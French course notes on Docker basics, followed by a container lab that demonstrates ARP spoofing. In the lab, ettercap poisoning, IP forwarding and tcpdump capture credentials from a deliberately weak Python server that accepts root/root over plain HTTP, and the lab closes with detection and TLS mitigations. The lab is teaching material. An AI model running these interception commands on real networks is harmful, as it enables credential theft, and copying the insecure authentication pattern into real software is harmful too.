Simplifie la gestion des conteneurs : les utilisateurs peuvent effectuer des tâches telles que la création d'images, l'exécution de conteneurs, la gestion de réseaux et la gestion de volume via des commandes simples (par exemple, docker build, docker run, docker ps).
-
Ex : docker, podman
Commandes de base :
Images Docker :
La commande docker images répertorie toutes les images Docker sur votre système local. Par défaut, il affiche des colonnes telles que le référentiel (repository), la balise (tag), l'ID de l'image, la date de création et la taille.
Le commutateur le plus couramment utilisé est -a ou --all, qui affiche toutes les images, y compris les images intermédiaires qui sont généralement masquées dans la sortie par défaut. Cela peut être utile pour nettoyer les images inutilisées ou pour le débogage.
Ex : docker images -a
-
Référentiel (repository) : le nom de la source de l'image, généralement un registre Docker (par exemple, Docker Hub ou un registre privé).
-
Balise (tag) : une étiquette qui différencie les versions de l'image (par exemple, la dernière, v1.0).
-
ID d'image : un identifiant unique pour l'image (dans un format de hachage).
-
Créé : la date et l'heure auxquelles l'image a été créée.
-
Taille : La taille de l'image stockée.
Extraction du docker :
La commande docker pull est utilisée pour télécharger des images Docker depuis un registre vers votre ordinateur local. Il récupère l'image spécifiée dans la commande et la rend disponible pour une utilisation dans les conteneurs Docker.
Ex : docker pull ubuntu:latest (si vous omettez le tag, Docker utilise par défaut la dernière).
D'où viennent les images ?
Registres Docker :
Un registre Docker est un service qui stocke et gère les images Docker, facilitant l'organisation et le déploiement d'applications conteneurisées.
Docker Hub est le plus grand repository cloud d'images de conteneurs fourni par Docker. Il fournit plus de 100000 images pouvant être utilisées et créées par des projets open source, des éditeurs de logiciels et la communauté Docker.
La plateforme vous permet de diffuser rapidement vos applications n'importe où, de collaborer avec vos coéquipiers et d'automatiser les builds pour une intégration plus rapide à un pipeline de développement.
URL : https://hub.docker.com/
Laboratoire :
-
Extraire l'image Docker nommée nginx.
docker pull nginx -
Vérifier l'ID de l'image (docker inspect nginx:latest | grep _VERSION).
docker images -a -
Extraire l'image Docker nommée nginx et étiquetée 1.29.2.
docker pull nginx:1.29.2 -
Vérifier l'identifiant de l'image.
docker images --all -
Extraire l'image Docker nommée nginx et étiquetée 1.29.1.
docker pull nginx:1.29.1 -
Vérifier l'identifiant de l'image.
docker images -a -
Qu'est-ce que cela signifie ?
Cela signifie que la version 1.29.2 a le même identifiant que la version :latest.
-
Supprimer des images (docker rmi x).
docker rmi nginx:1.29.1docker rmi nginx:1.29.2docker rmi nginx:latest
Dernier modèle : anti pattern :
Le dernier tag dans Docker fait référence au tag par défaut qui est appliqué à une image si aucun tag spécifique n'est fournie lors des commandes docker pull, docker run ou docker build. Il s'agit pas d'un tag spécial ou magique, mais simplement d'un tag conventionnel utilisé pour pointer vers une version particulière d'une image.
-
docker pull ubuntu -
docker pull ubuntu:latest
Le tag :latest ne pointe pas nécessairement vers la version la plus récente d'une image. Il s'agit simplement d'un tag par défaut appliqué aux images qui n'ont pas de tag spécifié. Ces deux commandes créeront une nouvelle image et la marqueront comme :latest.
Si vous push une nouvelle image avec un tag qui n'est ni vide ni "latest", :latest ne sera ni affecté ni créé.
Image VS conteneur :
Les images Docker sont des templates utilisés pour créer des conteneurs.
Comme les instantanés (snapshots) pour les machines virtuelles, les images Docker sont des fichiers immuables en lecture seule qui comprennent le code source, les bibliothèques, les dépendances, les outils et tout autre fichier nécessaire à l'exécution d'une application.
Chaque image est créée à partir d'un Dockerfile, qui contient des instructions spécifiques pour créer une image Docker particulière. Les conteneurs d'état ont deux états : au repos et en cours d'exécution.
-
Au repos : le conteneur existe sous la forme d'une image : un template immuable en lecture seule stocké sous forme de fichiers de configuration et de couches de système de fichiers.
-
En cours d'exécution : l'image devient un conteneur : une instance active et exécutable avec des processus en cours d'exécution et une couche inscriptible au-dessus des couches d'image en lecture seule.
docker create :
La commande docker create permet de créer un nouveau conteneur à partir d'une image Docker spécifique (sans la démarrer).
docker create --name proxy-reverse nginxdocker start :
La commande docker start est utilisée pour démarrer un ou plusieurs conteneurs arrêtés précédemment créés.
docker start id/namedocker ps :
La commande docker ps est utilisée pour répertorier les conteneurs actuellement en cours d'exécution sur votre hôte Docker. Il fournit des informations sur chaque conteneur en cours d'exécution, notamment son ID, son nom, son statut, etc.
-
ID de conteneur : un identifiant attribué à chaque conteneur en cours d'exécution.
-
Image : l'image Docker utilisée pour créer le conteneur.
-
Commande : la commande en cours d'exécution à l'intérieur du conteneur.
-
Créé : l'heure à laquelle le conteneur a été démarré.
-
Statut : l'état actuel du conteneur (par exemple, en cours d'exécution, quitté).
-
Port : mappages de ports entre la machine hôte et le conteneur.
-
Nom : le nom convivial attribué au conteneur.
docker stop :
La commande docker stop est utilisée pour arrêter un conteneur Docker en cours d'exécution. Lorsque cette commande est émise, Docker envoie un signal SIGTERM au processus principal à l'intérieur du conteneur, lui donnant la possibilité de s'arrêter correctement.
docker stop id/namedocker rm :
La commande docker rm est utilisée pour supprimer un ou plusieurs conteneurs Docker. Cette commande supprime les conteneurs spécifiés de l'hôte Docker, libérant ainsi toutes les ressources qu'ils utilisaient, telles que l'espace disque.
Vous pouvez uniquement supprimer les conteneurs arrêtés; essayer de supprimer un conteneur en cours d'exécution entraînera une erreur, sauf si vous utilisez l'option -f pour le supprimer de force.
docker rm id/nomdocker run :
La commande docker run est une commande unique qui combine plusieurs actions Docker en une seule.
Voici un aperçu de ce qui se passe lorsque vous exécutez docker run :
-
Extrait l'image (si nécessaire).
-
Crée un conteneur.
-
Démarre le conteneur.
-
S'attache à la sortie du conteneur.
Options supplémentaires :
-
-d : exécute le conteneur en arrière-plan (mode détaché).
-
-it : mode interactif qui permet d'ouvrir une session de terminal à l'intérieur du conteneur (utile pour le débogage ou l'exécution de commandes interactives).
-
-p : publie les ports du conteneur vers l'hôte (par exemple, -p 8080:80 mappe le port 80 du conteneur vers le port 8080 sur l'hôte).
-
--name : attribuez un nom personnalisé au conteneur au lieu d'un nom généré aléatoirement.
docker run -d -p 8080:80 --name mywebapp nginxdocker logs :
La commande docker logs est un outil puissant qui vous aide à surveiller et déboguer les conteneurs en vous donnant accès à la sortie du conteneur, même après l'arrêt du conteneur.
docker logs id/nameLaboratoire :
-
Créer un conteneur nommé test.
-
Démarrer le conteneur test.
-
Vérifier quand le conteneur a démarré.
-
Arrêter le conteneur.
-
Vérifier quand le conteneur s'est arrêté.
-
Relancer le conteneur test et exposer le sur le port 8989.
-
Ouvrir l'application conteneur sur le navigateur.
-
Supprimer le conteneur.
-
Le fichier `index.html` :
<!DOCTYPE HTML> <html> <head> <title>Coucou</title> </head> <body> <h1>Coucou from Docker !</h1> </body> </html> -
Le fichier `dockerfile` :
# Use nginx as base image FROM nginx:alpine # Copy HTML files to nginx webserver directory COPY index.html /usr/share/nginx/html/ # expose port 80 EXPOSE 80 # Start nginx server CMD ["nginx", "-g", "daemon off;"] -
docker build -t my-nginx .Cette commande sert à construire une image Docker personnalisée à partir d'un fichier Dockerfile présent dans le répertoire courant.
-
docker run -d --name my-nginx-container -p 8091:80 my-nginxCette commande démarre un conteneur à partir de l'image Docker my-nginx qu'on a construite juste avant et le rend accessible sur le port 8091 de ta machine hôte.
Nous exécutons une application NGINX...
Mais nous voulons déployer notre propre code personnalisé...
Comment pouvons-nous y parvenir ?
Dockerfile :
Un Dockerfile est un fichier texte qui contient un ensemble d'instructions utilisées pour créer une image Docker.
Il sert de blueprint pour créer des conteneurs Docker, définissant tout ce qui est nécessaire pour configurer l'environnement dans lequel votre application s'exécutera.
Instructions :
-
FROM : spécifie l'image de base à utiliser pour le conteneur Docker.
-
RUN : exécute les commandes pendant le processus de création de l'image Docker.
-
CMD : spécifie la commande par défaut à exécuter au démarrage d'un conteneur. Contrairement à RUN, il s'exécute au moment de l'exécution et non pendant la construction.
-
ENTRYPOINT : similaire à CMD, mais il configure la commande qui s'exécute toujours.
-
COPY : copie les fichiers et répertoires du système de fichiers local dans l'image Docker.
-
ADD : similaire à COPY, mais avec des fonctionnalités supplémentaires. Il peut extraire des fichiers compressés (par exemple, .tar, .gz) et récupérer des fichiers à partir d'URL distantes.
-
WORKDIR : définit le répertoire de travail pour les instructions ultérieures. Si le répertoire n'existe pas, il sera créé.
-
EXPOSE : informe Docker que le conteneur écoute sur un port réseau spécifique au moment de l'exécution. Il ne publie pas réellement le port mais sert de documentation.
-
ENV : définit les variables d'environnement dans le conteneur, qui peuvent être utilisées par les processus exécutés à l'intérieur du conteneur.
-
USER : spécifie l'utilisateur sous lequel exécuter le conteneur. Par défaut, les conteneurs s'exécutent en tant que root.
-
LABEL : ajoute des métadonnées à l'image. Les étiquettes (labels) peuvent être utilisées pour stocker des informations telles que la version, la description ou le responsable de l'image.
Couches :

Docker utilise une architecture en couches pour créer des images. Chaque instruction d'un Dockerfile crée une couche dans l'image finale. Ces couches sont empilées les uns sur les autres pour former l'image complète. Le principe de superposition offre plusieurs avantages, notamment l'efficacité, la réutilisabilité et la mise en cache.
Avantages de l'architecture en couches :
-
Efficacité
-
Réutilisabilité
-
Petites mises à jour
Attention à la commande !
Build :
La commande docker build est utilisée pour créer une image Docker à partir d'un Dockerfile et de son contexte (les fichiers et répertoires disponibles au chemin spécifié). Cette commande compile toutes les instructions spécifiées dans le Dockerfile dans une image qui peut ensuite être utilisée pour créer des conteneurs.
Dockerfile :
Un Dockerfile est un script qui consiste en un ensemble d'instructions sur la façon de créer une image Docker. Ces instructions incluent la spécification du système d'exploitation, des langues, des variables d'environnement Docker, des emplacements des fichiers, des ports réseau et d'autres composants nécessaires à l'exécution de l'image. Toutes les commandes du fichier sont regroupées et exécutées automatiquement.
Une image comporte plusieurs couches. Une fois que vous exécutez une image Docker pour créer un conteneur, une nouvelle couche en lecture-écriture est ajoutée. C'est ce qu'on appelle parfois la couche conteneur. La couche supplémentaire vous permet d'apporter des modifications à l'image de base, que vous pouvez valider pour créer une nouvelle image Docker pour une utilisation future.
Création d'un environnement de pentest avec Docker :
Introduction :
L'objectif de ce cours est de fournir une compréhension complète des attaques d'usurpation d'identité ARP (ARP spoofing) dans un environnement réseau Docker. Nous explorerons les vulnérabilités associées à l'utilisation de protocoles non sécurisés et démontrerons les risques potentiels qu'ils posent pour la sécurité du réseau.
Comment fonctionne l'ARP (Address Resolution Protocol) ?
Protocole ARP :
-
Au niveau de la couche 3 (couche réseau), la plupart des programmes informatiques ou des applications utilisent des adresses logiques (adresses IP) pour envoyer et recevoir des messages.
-
Cependant, la communication réelle a lieu au niveau de la couche 2 (couche liaison de données) à l'aide d'adresses physiques (adresses MAC).
Pour faciliter cette communication, l'adresse MAC de destination doit être déterminée pour permettre aux appareils de se connecter. C'est là qu'ARP (Address Resolution Protocol) entre en jeu; son rôle est de traduire les adresses IP (couche 3) en adresses MAC correspondantes (couche 2).
Table ARP :
Une fois l'adresse MAC obtenue, elle est stockée dans la table ARP, qui fait office de liste de contacts.
Tout comme une liste de contacts téléphoniques associe des noms à des numéros de téléphone, la table ARP associe les adresses IP à leurs adresses MAC correspondantes, permettant une référence rapide dans les communications futures.
Rappel : protocole ARP :

Lors d'une spoofing attack ARP, l'attaquant incite les appareils du réseau à associer leur propre adresse MAC à l'adresse IP d'un autre appareil. Cette tromperie permet à l'attaquant d'intercepter, de modifier ou de bloquer les communications destinées à cette adresse IP, tout comme il pourrait le faire avec le contact téléphonique.
Où est le danger ?
Couche 1 : sniffing :

Logiciel (Wireshark) ou matériel
Couche 7 : HTTP :
Le protocole HTTP contrôle la façon dont le client formule ses demandes et la façon dont le serveur y répond. Le protocole HTTP connaît différentes méthodes de requêtes. Plus de détails lors des prochains cours.
Le protocole n'offre aucune sécurité de communication. En effet, les informations sont transmises "en clair" sur Internet. Ce qui veut dire qu'il est possible pour un pirate informatique de récolter des informations confidentielles.
Types de réseaux Docker (drivers) :
Docker fournit plusieurs pilotes réseau intégrés, chacun répondant à différents besoins réseau pour les conteneurs :
-
bridge : le pilote réseau par défaut. Il crée un réseau interne privé sur l'hôte Docker, permettant aux conteneurs du même hôte de communiquer entre eux.
-
host : supprime l'isolation réseau entre un conteneur et l'hôte Docker. Le conteneur partage la pile réseau de l'hôte, ce qui donne l'impression que le conteneur s'exécute directement sur l'hôte.
-
none : isole complètement un conteneur de tous les réseaux. Il ne fournit aucune interface réseau, coupant ainsi toute communication externe.
-
overlay : connecte plusieurs démons Docker (hôtes) pour former un seul réseau virtuel. Ceci est utile pour le clustering ou lorsque les conteneurs doivent communiquer entre différents hôtes.
-
ipvlan : offre plus de contrôle sur le trafic réseau en vous permettant d'attribuer des adresses IPv4 et IPv6 directement aux conteneurs, sans dépendre de la gestion réseau interne de Docker.
-
macvlan : attribue une adresse MAC unique à chaque conteneur, le faisant apparaître comme un périphérique physique distinct sur le réseau, ce qui peut être utile lorsque les conteneurs doivent être directement connectés.
Network : bridge :

C'est le pilote réseau par défaut. Il crée un réseau interne privé sur l'hôte Docker, permettant aux conteneurs sur le même hôte de communiquer les uns avec les autres.
Lab : Docker Network :
-
Créez un nouveau réseau nommé "lab" à l'aide du pilote "bridge" :
docker network create --driver bridge lab -
Listez tous les réseaux disponibles sur l'hôte Docker :
docker network list
Lab : ajouter un client au réseau :
Ajoutez deux conteneurs Docker, nommés client1 et client2 dans le réseau "lab".
-
docker run -dit --name client1 --network lab alpine sh -
docker run -dit --name client2 --network lab alpine sh -
-i : permet une saisie interactive (rester debout)
-
-d: mode détaché (c'est-à-dire en arrière-plan)
-
-t : alloue un pseudo-TTY (une interface de terminal)
Lab : ping client2 depuis client1 :
Il faut deux terminaux avec "client1" et "client2" en exécutant la commande suivante selon la victime :
docker exec -it client1 shdocker exec -it client2 shCette commande te permet d'ouvrir un shell interactif dans un conteneur Docker existant.
-
Trouver les adresses IP des clients :
ifconfig -
Exécuter le ping :
Dans le terminal "client1" :
ping 172.19.0.3Dans le terminal "client2" :
ping 172.19.0.2 -
Vérifier les tables ARP :
arp -a
Lab : ajouter un serveur HTTP dans le conteneur client 2 :
-
ajouter une application Web
-
Dans le terminal "client2" :
apk add --no-cache python3 py3-pip -
Dans le terminal "client2" :
vim app.pyLe fichier `app.py` est :
from http.server import BaseHTTPRequestHandler, HTTPServer import urllib.parse as urlparse class AuthHandler(BaseHTTPRequestHandler): def do_GET(self): # Parse the path parsed_path = urlparse.urlparse(self.path) # Root endpoint ("/") that returns "Hello, World!" if parsed_path.path == '/': self.send_response(200) self.send_header('Content-type', 'text/plain') self.end_headers() self.wfile.write(b"Hello, World!\n") # Auth endpoint ("/auth") that checks user and password elif parsed_path.path == '/auth': # Parse query parameters query_components = urlparse.parse_qs(parsed_path.query) # Get the 'user' and 'password' parameters user = query_components.get('user', [None])[0] password = query_components.get('password', [None])[0] # Check if credentials match if user == 'root' and password == 'root': self.send_response(200) self.send_header('Content-type', 'text/plain') self.end_headers() self.wfile.write(b"connected\n") else: self.send_response(403) self.send_header('Content-type', 'text/plain') self.end_headers() self.wfile.write(b"forbidden\n") # Handle other paths else: self.send_response(404) self.send_header('Content-type', 'text/plain') self.end_headers() self.wfile.write(b"Not Found\n") # Set up and start the server server_address = ('', 8080) httpd = HTTPServer(server_address, AuthHandler) print("Serving on port 8080...") httpd.serve_forever()Pour quitter, il faut taper la commande :wq!.
python app.pyCette commande affichera la ligne suivante dans le terminal :
Serving on port 8080... -
Dans le terminal "client1" :
apk add curlcurl "http://172.19.0.3:8080/auth?user=root&password=root"
ARP spoofing :
-
Dans le 3ème terminal nommé "attacker" :
docker run -dit --privileged --name attacker --network lab kalilinux/kali-rolling shSous certaines images, sh ne peut pas existe et on préfère bash. Aussi l'option --privileged donne énormément de droits - c'est intentionnel pour attaque mais il faut l'expliquer (danger).
-
Dans le terminal "attacker" :
apt-get updateapt-get install -y ettercap-text-only -
Dans le terminal "attacker" :
apt install -y net-toolsDans Alpine, la commande ifconfig est souvent absente, c'est pour cela qu'on doit installer net-tools ou alors utiliser la commande suivante :
ip addr showOu encore la commande abrégée :
ip a -
Dans le terminal "attacker" :
ettercap -T -q -i eth0 -M arp:remote /172.19.0.2// /172.19.0.3// -
Dans un 4ème terminal nommé "attacker2" :
docker exec -it attacker shecho 1 > /proc/sys/net/ipv4/ip_forward -
Dans le terminal "attacker2" :
tcpdump -i eth0 -n -c 20La commande précédente sert à capturer et afficher les paquets réseau circulant sur une interface réseau donnée.
-
Exécuter arp -a dans le terminal "client1" et "client2"
-
Dans le terminal "client1" :
curl "http://172.19.0.3:8080/auth?user=root&password=root" -
Vérifier le résultat :
Dans le terminal "attacker", on voit qu'il a récupéré le USER et le PASSWORD.
Comment détecter le problème ?
Il vous suffit de vérifier votre table ARP (commande `arp -a`).
Vous êtes victime de l'attaque dans le cas où la table affiche deux adresses IP ayant la même adresse MAC.
Comment traiter le problème ?
-
Tables ARP statiques
-
Sécuriser switch (Dynamic ARP Inspection)
-
Isolation du réseau
-
Chiffrement
Passer à TLS :
-
Générer des certificats
-
Adapter l'application
-
Retenter l'attaque
Ajouter le certificat CA :
Ajoutez le certificat CA dans le client :
apk add ca-certificatescp ca.crt /usr/local/share/ca-certificates/ca.crtsudo update-ca-certificates